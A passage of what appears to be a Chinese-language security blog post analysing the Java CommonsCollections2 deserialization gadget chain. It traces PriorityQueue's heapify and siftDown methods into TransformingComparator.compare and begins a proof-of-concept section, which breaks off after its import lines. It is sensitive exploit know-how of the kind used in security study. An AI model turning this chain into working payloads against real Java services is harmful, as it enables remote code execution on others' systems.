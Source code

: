 ```java
}
```
在`heapify()`方法中，继续会调用`siftDown()`方法，这里的`x`是可控的，让`comparator`不为空进而调用`siftDownUsingComparator()`方法，在`siftDownUsingComparator()`方法中会调用前面`comparator`的`compare`方法。

```java
private void heapify() {
    for (int i = (size >>> 1) - 1; i >= 0; i--)
        siftDown(i, (E) queue[i]);
}

private void siftDown(int k, E x) {
    if (comparator != null)
        siftDownUsingComparator(k, x);
    else
        siftDownComparable(k, x);
}

private void siftDownUsingComparator(int k, E x) {
    int half = size >>> 1;
    while (k < half) {
        int child = (k << 1) + 1;
        Object c = queue[child];
        int right = child + 1;
        if (right < size &&
            comparator.compare((E) c, (E) queue[right]) > 0)
            c = queue[child = right];
        if (comparator.compare(x, (E) c) <= 0)
            break;
        queue[k] = c;
        k = child;
    }
    queue[k] = x;
}
```
这里将`comparator`和`TransformingComparator`结合起来，如果这里`this.transformer`是可控的话，就可以进一步利用`CC-1`链的后半段部分。

```java
public int compare(I obj1, I obj2) {
    O value1 = this.transformer.transform(obj1);
    O value2 = this.transformer.transform(obj2);
    return this.decorated.compare(value1, value2);
}
```
这里需要注意几个地方，在`heapify()`方法处的`size`要是大于`1`的，只有这样才会继续进入到`siftDown()`方法中。

### POC-1
利用`PriorityQueue`和`CommonsCollections-1`后半部分来进行构造。

```java
package CommonsCollections2;

import org.apache.commons.collections4.Transformer;
import org.apache.commons.collections4.comparators.TransformingComparator;
import org.apache.commons.collections4.functors.ChainedTransformer;
import org.apache.commons.collections4.functors.ConstantTransformer;
import org.apache.commons.collections4.functors.InvokerTransformer;

import java.io.FileInputStream;
import java.io.FileOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import java.util.PriorityQueue;

```